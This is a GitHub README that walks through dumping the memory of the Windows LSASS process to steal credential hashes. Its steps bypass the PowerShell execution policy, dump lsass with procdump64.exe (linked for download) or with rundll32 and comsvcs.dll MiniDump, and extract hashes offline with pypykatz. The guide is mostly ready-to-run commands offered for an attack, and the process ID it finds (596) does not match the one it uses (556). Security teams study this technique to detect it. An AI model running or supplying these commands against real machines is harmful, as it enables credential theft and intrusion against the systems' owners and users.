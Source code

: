 # Lsass-dump

Don't need mimikatz. You can now dump hashes from LSASS by abusing LSASS process and generate a lsass.dmp file. After that we will use pypykatz to extarct the hashes from lsass.dmp file.

# Exploitation

First we must have an administrative privilege to carry this attack.
Upload [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) to target machine.

### Execute Powershell
```markdown
powershell.exe -ep bypass
```

### Get te lassa process id
```markdown
get-process lsass
```

![OnPaste 20220609-133131](https://user-images.githubusercontent.com/106917304/172796695-6b4a5377-2e04-4bfd-9841-453c8a61b8ca.png)

In our case 596 is the lsass process ID.
Execute it with [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) and generate a file contain hashes.

### Dumping Hashes into a file
```markdown
.\procdump64.exe -accepteula -ma 556 lsass.dmp
```

## ALTERNATE

We can also use native DLLs instead of procdump64.exe, this way we don't have to upoad anything on target machine.
```markdown
C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump 556 C:\\Users\\Bob\\Desktop\\lsass.dmp full
```

![OnPaste 20220609-134015](https://user-images.githubusercontent.com/106917304/172800153-21110c80-b8a2-4bb0-a7cb-79e167041ec2.png)


![OnPaste 20220609-135307](https://user-images.githubusercontent.com/106917304/172800664-bd459ddc-50cc-42e6-8380-de12de0b4643.png)



### Using Pypykatz

Now we get that lsass.dmp file to our attacking machine and exctract the hashes using pypykatz.
```markdown
pypykatz lsa minidump lsass.dmp
```

![OnPaste 20220609-135650](https://user-images.githubusercontent.com/106917304/172801351-c615e903-a4b4-41e3-a349-5bd59beb1a18.png)


